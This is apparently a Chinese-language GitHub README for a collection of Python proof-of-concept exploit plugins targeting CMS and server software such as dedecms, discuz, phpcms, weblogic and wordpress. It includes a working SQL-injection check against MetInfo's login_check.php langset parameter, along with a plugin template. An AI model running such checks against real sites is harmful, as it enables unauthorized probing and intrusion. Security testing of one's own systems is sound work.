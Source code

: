 # cms_poc_exp
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - ~~本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2~~
  - ~~[ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3~~
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)
  - [jetty](https://github.com/1oid/cms_poc_exp/tree/master/jetty)
  - [ecshop](https://github.com/1oid/cms_poc_exp/tree/master/ecshop)
  - [74cms](https://github.com/1oid/cms_poc_exp/tree/master/74cms)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
- `icetea` 提交新的cms和poc
